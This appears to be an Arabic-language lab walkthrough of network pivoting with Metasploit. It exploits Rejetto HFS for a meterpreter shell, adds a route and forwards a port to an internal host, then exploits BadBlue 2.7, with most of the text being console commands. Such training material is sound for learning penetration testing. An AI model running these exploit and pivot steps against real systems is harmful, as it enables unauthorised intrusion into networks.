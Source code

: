 طبعا المفروض نفحص بالـ nmap ونشوف وش فيه التارقت 1 لكن بنختصر لانه مكرر ف بنستغل فورا  
```bash
msfconsole  
use exploit/windows/http/rejetto_hfs_exec  
set RHOSTS 10.0.23.180  
exploit  
```  

الان جانا الـ meterpreter shell  

الان الي نحتاجه انه نعرف ايش هو ايبي الشبكة كامل ونظيفه بالـ route table  
```bash
shell  
ipconfig  
```  

الان نشوف انه عطانا ايبي الشبكة كامل زمن النت ماسك بنعرف الـ CIDR  
```bash
if ip = 10.0.23.180  
netmask = 255.255.240.0  
the IP network = 10.0.23.0/20  
```  

والان نضيفه الى الـ route table عن طريق هذا الامر  
```bash
run autoroute -s 10.0.23.0/20  
```  

طبعا الان اضفناه الى الـ route table  

طبعا بنسوي portscan عشان نشوف ايش الايبي الـ up وايش البورتات الشغاله عليه  

نخلي السيشن في الخلفيه ونستخدم الموديول التالي  
```bash
background  
use auxiliary/scanner/portscan/tcp  
set RHOSTS 10.0.27.99  
set PORTS 1-100  
exploit  
```  

طبعا حصلنا ان بورت 80 شغال طبعا الان لابد نسوي شي اسمه port forward بحيث نقدر او يصير عندنا access على البورت  

طيب بنشوف الان كيف بنسويها بداية راح نرجع لسيشن حقتنا  
```bash
sessions -i 1  
portfwd add -l 1234 -p 80 -r 10.0.27.99 [-l $attacker_port -p $target_port -r $ip_target]  
portfwd list  [to check Active Port forwards]
```  

طبعا الان نشوف انه باللوكال بورت 1234 راح يودينا عليه 10.0.27.99 بالتحديد بورت 80  

راح نجرب نفحص الان البورت على الـ local  
```bash
nmap -sV -sS -p 1234 localhost  
```  

نشوف الان انه الان بورت 1234 على جهازنا شغال عليه BadBlue لكن بالواقع هو مش بورت 1234 ولا هو حقنا بس عكسنا البورت بحيث انه الان الايبي 10.0.27.99 بالتحديد بورت 80 شغال عليه BadBlue 2.7 وحنا نعرف انه مصاب وله استغلال راح نستغله طبيعي الان  
```bash
msfconsole  
use exploit/windows/http/badblue_passthru  
set PAYLOAD windows/meterpreter/bind_tcp  
set RHOSTS 10.0.27.99  
exploit  
``` 

